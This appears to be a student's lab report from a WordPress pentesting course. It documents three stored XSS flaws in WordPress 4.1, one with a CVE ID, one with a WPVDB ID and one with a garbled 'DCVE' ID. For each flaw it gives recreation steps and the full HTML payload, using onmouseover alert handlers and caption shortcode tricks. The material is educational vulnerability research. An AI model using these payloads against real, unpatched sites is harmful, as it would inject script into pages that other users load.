 # Project 7 - WordPress Pentesting

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1.  Unauthenticated Stored Cross-Site Scripting CVE-2015-3440
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
  
  ![AAA](https://github.com/jlangdev/WPvsKali/blob/master/64AAA.gif)
  - [ ] Steps to recreate: 
      - Use some sort of program or text generator to generate 64KB worht of text
      - Submit the following as a comment
      ```
      <a title='x onmouseover=alert(unescape(/hello%20world/.source))
      style=position:absolute;left:0;top:0;width:5000px;height:5000px  
      [INSERT YOUR 64KB OF TEXT HERE WITHOUT THESE SQUARE BRACKETS]'></a>
      ```
      - Once approved, the script will execute when the comment is loaded
  - [ ] Affected source code:
    - [CVE Details](https://www.cvedetails.com/cve/CVE-2015-3440/)
2. Publish Post & Mark as Sticky Permission Issue ID WPVDB-ID:8188
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.8
  - [ ] GIF Walkthrough: 
  
    ![Sticky](https://github.com/jlangdev/WPvsKali/blob/master/sticky.gif)
  - [ ] Steps to recreate:
    - Create a new post as an administrator with the following text:
    ```
    misc buffoonery[caption width='1' caption='<a href="' ">]</a>
    <a href="http://onMouseOver='alert(/get rekt lmao/)'
    style='display:block;position:absolute;top:0px;left:0px;margin-left:
    -1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>
    ```
    - Submit the post as private and then edit it
    - update the post as public and stickied
    - js will execute upon page load
  - [ ] Affected source code:
    - [WP Vulnerabilities DB entry](https://wpvulndb.com/vulnerabilities/8188)
3. Authenticated Stored Cross-Site Scripting wordpress DCVE-2015-5622
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.2.2
  - [ ] GIF Walkthrough: 
  
     ![Contributor](https://github.com/jlangdev/WPvsKali/blob/master/Contributor.gif)
  - [ ] Steps to recreate:
    -create a new account with the role of contributor and log in to it
    -create a new post with the following text:
    ```
    miscellaneous blabbering for the sake of hiding your exploitive murmurings
    <a href="[caption code=">]</a><a title=" onmouseover=alert('rekt') ">yeetus</a>
    sandwich the exploit betwixt some form of admirable prose
    ```
  - [ ] Affected source code:
    - [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-2337/opxss-1/Wordpress.html)
 
